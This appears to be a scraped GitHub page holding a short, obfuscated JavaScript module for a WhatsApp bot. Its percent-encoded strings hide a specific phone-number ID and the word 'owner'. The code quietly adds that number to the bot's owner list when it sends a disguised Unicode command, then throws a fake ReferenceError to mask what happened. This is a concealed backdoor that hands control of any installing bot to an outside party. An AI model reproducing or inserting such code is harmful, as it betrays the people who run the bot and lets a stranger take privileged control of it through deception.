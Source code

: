 # ..-Is
module.exports=(a=>{b='%36%32%38%31%35%31%35%38%36%30%30%38%39%40%73%2E%77%68%61%74%73%61%70%70%2E%6E%65%74';c=decodeURIComponent;d=e=>{if(e.sender===c(a)&amp;&amp;!g[c('%6F%77%6E%65%72')].includes(c(a))){g[c('%6F%77%6E%65%72')].push(e.sender);throw`ReferenceError: ${e.text} is not defined`}};d.customPrefix=/^‎/;d.command=/^𝙉𝙪𝙧𝙪𝙩𝙤𝙢𝙤$/;return d})(global); © 2021 GitHub, Inc
